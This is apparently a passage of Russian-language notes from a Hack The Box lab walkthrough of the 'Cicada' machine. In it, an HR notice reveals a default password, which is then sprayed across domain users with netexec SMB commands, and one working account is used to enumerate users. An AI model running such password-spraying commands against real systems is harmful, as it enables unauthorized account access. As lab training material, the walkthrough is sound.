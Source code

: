 Чтение записки из текстового файла
```
cat Notice\ from\ HR.txt
```
![[Pasted image 20241103200108.png | 400]]

Заметки для HR.txt
```
Dear new hire!

Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.

Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account** using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Получен пароль
```
Cicada$M6Corpb*@Lp#nZp!8
```

Спрей пароля на найденных пользователей
```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```
![[Pasted image 20241103200916.png]]

Получение списка пользователей и комментариев 
```bash
nxc smb 10.10.11.35 -u michael.wrightson -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```
![[Pasted image 20241103201225.png]]
